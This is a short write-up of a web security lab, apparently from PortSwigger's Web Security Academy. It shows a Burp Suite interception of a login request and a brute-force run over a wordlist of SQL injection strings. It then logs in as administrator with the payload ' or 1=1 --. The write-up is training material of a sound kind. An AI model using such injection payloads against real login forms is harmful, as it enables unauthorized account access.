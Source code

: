 
<p align="center">
  <img src="./screenshots/sql_logo.png" alt="sql_logo"/>
</p>

---

- 🎯 **Target:** SQL injection Lab - vulnerability allowing login bypass
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 05.10.2025
- 📊 **Difficulty:** APPRENTICE
- 📁 **Category:** Web - SQL injection

---


## 🔍 Request interception

> SQL injection vulnerability is contained in the login form

![login](./screenshots/login.png)

> I intercept the request in BurpSuite:

```html

POST /login HTTP/2
Host: 0a80000d033a807aafa63b5b003e00d3.web-security-academy.net
Cookie: session=QwKY92EStw5fSX6cRdTzfx9gWuLOQXx3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0a80000d033a807aafa63b5b003e00d3.web-security-academy.net
Referer: https://0a80000d033a807aafa63b5b003e00d3.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=z5OAmZIGyksJrEQZSGA4gSBt9IRqMeib&username=sonya&password=hack

```

> To solve this lab, you need to log in as `administrator`. So I change the `username` parameter in the request body and send the request to `Intruder`:

![intruder_pass](./screenshots/intruder_pass.png)

> I'm trying to brute force the `password` field with standard injections in the form of a small dictionary

> **Note:** I attach the dictionary to the repository (SQLi_wordlist.txt)

> I run brute force and find that one of the answers differs in length from the others:

![intruder_brute](./screenshots/intruder_brute.png)

> Using injection `' or 1=1 --` and logging in as `administrator`

> Result:

![admin_user](./screenshots/admin_user.png)

> I get access to the admin panel

![solved_lab](./screenshots/solved_lab.png)

